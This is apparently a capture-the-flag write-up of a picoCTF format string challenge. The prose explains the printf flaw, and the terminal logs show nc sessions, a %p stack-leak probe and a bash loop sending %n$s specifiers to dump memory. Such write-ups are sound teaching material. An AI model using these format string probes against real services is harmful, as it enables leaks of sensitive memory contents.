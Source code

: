 After running the loop, I eventually saw the flag printed out:

This was the hidden flag, successfully retrieved by exploiting the format string vulnerability.

The vulnerability was found because the program improperly handled user input by passing it directly to `printf()` without any checks. This allowed me to inject format specifiers into my input, causing the program to leak memory contents. By printing stack values and iterating through memory locations, I was able to locate the flag stored in memory.

This challenge was a great example of how format string vulnerabilities can be used to leak sensitive data, and it highlights the importance of properly handling user input in C programs. It also serves as a reminder of how small oversights in function design, such as failing to sanitize format strings, can lead to exploitable vulnerabilities. Through systematic exploitation and some simple scripting, I was able to extract the flag from the program’s memory.

```
root@LAPTOP-GEM5SRL1:/home/Cryptonite# nc saturn.picoctf.net 53330
Tell me a story and then I'll tell you one >> kanda
Here's a story -
kanda

root@LAPTOP-GEM5SRL1:/home/Cryptonite#
root@LAPTOP-GEM5SRL1:/home/Cryptonite# nc saturn.picoctf.net 53330
Tell me a story and then I'll tell you one >> %p%p%p%p%p
Here's a story -
0xffc19eb00xffc19ed00x80493460x702570250x70257025
```

```
root@LAPTOP-GEM5SRL1:~# cd /home/Cryptonite
root@LAPTOP-GEM5SRL1:/home/Cryptonite#  for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 53330; done
Tell me a story and then I'll tell you one >> Here's a story -
%0$s
Tell me a story and then I'll tell you one >> Here's a story -
%1$s
Tell me a story and then I'll tell you one >> Here's a story -
�G�
Tell me a story and then I'll tell you one >> Here's a story -
�ú,
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -
/
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -
�.
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
�������
Tell me a story and then I'll tell you one >> Here's a story -
�(��g}��g}��g}��g}��g}��g}��g}��h}��
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
```